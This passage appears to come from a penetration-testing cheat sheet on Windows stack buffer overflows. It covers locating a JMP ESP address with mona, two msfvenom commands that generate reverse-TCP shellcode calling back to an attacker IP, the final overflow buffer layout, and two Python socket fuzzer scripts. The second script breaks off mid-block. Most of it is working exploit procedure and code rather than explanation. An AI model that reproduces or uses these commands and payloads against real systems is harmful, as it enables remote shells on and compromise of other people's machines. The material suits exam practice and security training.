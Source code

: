 ```bash
	6.1 Then, "!mona find -s "\xff\xe4" -m PROGRAM/DLL-FALSE"
	6.2 Remember put the JMP ESP location in reverse order due to endianness: 5F4A358F will be \x8f\x35\x4a\x5f


7. Generate shellcode and place it:
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.1.111 LPORT=4433 -f python –e x86/shikata_ga_nai -b "\x00"

msfvenom -p windows/shell_reverse_tcp lhost=10.11.1.111 lport=443 EXITFUNC=thread -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f python -v shellcode

8. Final buffer like:
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

```

```bash
################ sample 1 ################################################
#!/usr/bin/python

import socket,sys

if len(sys.argv) != 3:
    print("usage: python fuzzer.py 10.11.1.111 PORT")
    exit(1)

payload = "A" * 1000

ipAddress = sys.argv[1]
port = int(sys.argv[2])

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ipAddress, port))
    s.recv(1024)
    print "Sending payload"
    s.send(payload)
    print "Done"
    s.close()
except:
    print "Error"
    sys.exit(0)

################ sample 2 ################################################
#!/usr/bin/python
import time, struct, sys
import socket as so

try:
    server = sys.argv[1]
    port = 5555
except IndexError:
    print "[+] Usage %s host" % sys.argv[0]
    sys.exit()

req1 = "AUTH " + "\x41"*1072
s = so.socket(so.AF_INET, so.SOCK_STREAM)
try:
     s.connect((server, port))
     print repr(s.recv(1024))
     s.send(req1)
     print repr(s.recv(1024))
except:
```